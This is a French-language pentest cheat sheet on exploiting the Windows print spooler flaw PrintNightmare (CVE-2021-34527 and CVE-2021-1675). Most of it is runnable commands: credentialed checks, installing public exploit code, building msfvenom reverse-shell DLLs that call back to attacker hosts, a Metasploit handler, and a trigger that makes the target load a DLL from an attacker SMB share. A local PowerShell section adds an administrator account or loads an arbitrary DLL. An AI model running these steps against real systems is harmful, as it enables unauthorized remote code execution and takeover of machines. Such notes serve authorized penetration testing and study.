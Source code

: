 ```yaml
---
public: true
---
```


|  |  |
| --- | --- |
| CVE | [CVE-2021-34527](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-34527) et [CVE-2021-1675](https://msrc.microsoft.com/update-guide/vulnerability/CVE-2021-1675) |
| Correctif fixant la vulnérabilité | CU 2021-06 et 2021-07 |

## Eléments nécessaires à l'exploitation

- Machine non patchée
- Spooler d'impression démarré (par défaut toutes les machines)

## Vérification

```shell
proxychains -q cme smb targets.txt -d INLANEFREIGHT.LOCAL -u 'ssmalls' -p 'Password123!'  -M printnightmare
```

## Exploitation

### A distance

#### Installation de l'outil

```shell
git clone https://github.com/cube0x0/CVE-2021-1675.git

## Nécessite une version modifiée d'impacket
pip3 uninstall impacket # désinstallation d'impacket
git clone https://github.com/cube0x0/impacket # installation de la version modifiée
cd impacket
python3 ./setup.py install
```

#### Vérification de la disponibilité du spooler

```shell
rpcdump.py @$TARGET_IP | egrep 'MS-RPRN|MS-PAR'
```

#### Exécution de l'attaque

```shell
# Creation d'un reverse shell au format DLL
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=172.16.5.225 LPORT=8080 -f dll > backupscript.dll
msfvenom -p windows/shell_reverse_tcp LHOST=10.172.16.5.225 LPORT=443 -f dll > shell.dll
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=ATTACK_IP LPORT=1234 -f dll > bad.dll
# Partage de la dll
sudo 
smbserver.py -smb2support CompData  . &

# Exécution du multi handler depuis msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST ATTACK_IP
set LPORT 1234
run

# Déclenchement de l'exploit
sudo python3 CVE-2021-1675.py domain.local/$AD_USER:$AD_PASSWORD@$TARGET_IP '\\ATTACK_IP\ShareName\bad.dll'
```

### Localement

On pourra utiliser ce POC qui s'appuie sur powershell : <https://github.com/calebstewart/CVE-2021-1675>

#### Vérification de la disponibilité du spooler

```powershell
ls \\localhost\pipe\spoolss


    Directory: \\localhost\pipe


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
                                                  spoolss
```

#### Exécution de l'attaque

<https://github.com/cube0x0/CVE-2021-1675>

#### Chargement du module

```powershell
Set-ExecutionPolicy Bypass -Scope Process

Import-Module .\cve-2021-1675.ps1
```

#### Création d'un compte administrateur local

```shell
# Add a new user to the local administrators group by default:
Invoke-Nightmare # add user `adm1n`/`P@ssw0rd` in the local admin group by default
Invoke-Nightmare -DriverName "Xerox" -NewUser "john" -NewPassword "SuperSecure" 

```

#### Chargement d'une DLL de notre choix (reverse shell par exemple)

```shell
Import-Module .\cve-2021-1675.ps1
Invoke-Nightmare -DLL "C:\absolute\path\to\your\bindshell.dll"
```

#### Vérification

```shell
net user hacker
```
